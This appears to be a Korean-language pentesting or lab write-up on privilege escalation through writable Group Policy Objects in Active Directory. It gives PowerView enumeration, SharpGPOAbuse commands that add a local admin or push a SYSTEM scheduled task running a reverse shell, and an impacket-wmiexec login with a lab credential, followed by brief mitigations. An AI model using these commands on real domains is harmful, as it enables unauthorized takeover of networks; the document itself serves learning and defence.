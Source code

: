 


# GPO(그룹 정책 개체)를 이용한 권한 상승 가이드

GPO(Group Policy Object)는 Active Directory 내의 사용자 및 컴퓨터에 대한 정책(소프트웨어 설치, 스크립트 실행, 암호 정책 등)을 중앙에서 관리하는 강력한 기능입니다. 만약 공격자가 특정 GPO를 편집할 권한을 획득한다면, 해당 GPO가 적용되는 모든 컴퓨터에서 `SYSTEM` 권한으로 코드를 실행할 수 있습니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어할 수 있는 계정이 편집 권한을 가진 GPO를 찾습니다.
- **핵심 도구:** BloodHound, PowerView

#### **BloodHound 활용**
- BloodHound는 이 공격 경로를 시각적으로 보여주는 가장 효과적인 도구입니다. "Find GPO Edit Rights" 또는 "Find Shortest Paths to Domain Admins" 같은 쿼리를 실행하면, 현재 사용자가 편집할 수 있는 GPO와 그 영향력을 한눈에 파악할 수 있습니다.

#### **PowerView를 이용한 수동 열거**
- `PowerView.ps1` 스크립트를 사용하여 특정 GPO의 권한을 수동으로 확인할 수 있습니다.

```powershell title="PowerView로 GPO 권한 확인"
# 특정 GPO의 ACL(Access Control List) 확인
Get-ObjectAcl -ResolveGUIDs -Name "<GPO_Name>"
```

---

### **2. `SharpGPOAbuse`를 이용한 공격**

- **[GitHub 링크](https://github.com/FSecureLABS/SharpGPOAbuse)**
- `SharpGPOAbuse`는 GPO 편집 권한을 악용하는 과정을 자동화해주는 최고의 도구입니다.

#### **공격 시나리오 A: 로컬 관리자 추가 (은밀한 방식)**
- **전략:** GPO를 수정하여 특정 사용자를 GPO가 적용되는 모든 컴퓨터의 로컬 관리자 그룹에 추가합니다. 이 방법은 즉시 셸을 획득하는 것은 아니지만, 탐지될 가능성이 낮습니다.

```powershell(title="SharpGPOAbuse - 로컬 관리자 추가")
# --AddLocalAdmin: 로컬 관리자 추가 모드
# --UserAccount: 관리자로 추가할 사용자 계정
# --GPOName: 공격 대상 GPO의 이름
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <attacker_user> --GPOName "Vulnerable GPO"
```

#### **공격 시나리오 B: 즉시 실행 작업 추가 (공격적인 방식)**
- **전략:** GPO에 즉시 실행되는 예약 작업을 추가하여, 리버스 셸과 같은 악성 코드를 `SYSTEM` 권한으로 실행시킵니다.

```powershell(title="SharpGPOAbuse - 즉시 실행 작업 추가")
# --AddImmediateTask: 즉시 실행 예약 작업 추가 모드
# --Command: 실행할 명령어
# --TaskName: 작업 이름
./SharpGPOAbuse.exe --AddImmediateTask --TaskName "Updates" --Command "C:\Temp\revshell.exe" --GPOName "Vulnerable GPO"
```

#### **정책 업데이트 강제 적용**
- GPO 변경 사항은 기본적으로 90~120분마다 클라이언트 컴퓨터에 적용됩니다. 만약 대상 컴퓨터에 이미 셸이 있다면, `gpupdate /force` 명령어로 정책을 즉시 업데이트하여 공격을 트리거할 수 있습니다.


```powershell
gpupdate /force
```

```powershell
net user enterprise-security
```

```bash title="공격자 Kali"
rlwrap impacket-wmiexec 'vulnnet.local/enterprise-security:sand_0873959498'@$target
```

---

### **3. 방어 (Mitigation)**

- **권한 최소화:** GPO 편집 권한은 도메인 관리자(Domain Admins)와 동일한 수준의 민감한 권한으로 취급해야 합니다. `Group Policy Creator Owners` 그룹의 멤버십을 엄격하게 관리하고, 일반 관리자에게 GPO 편집 권한을 위임하지 않습니다.
- **정기적인 감사:** BloodHound나 PowerShell 스크립트를 사용하여 주기적으로 GPO 권한 설정을 감사하고, 비정상적인 권한 할당을 모니터링합니다.


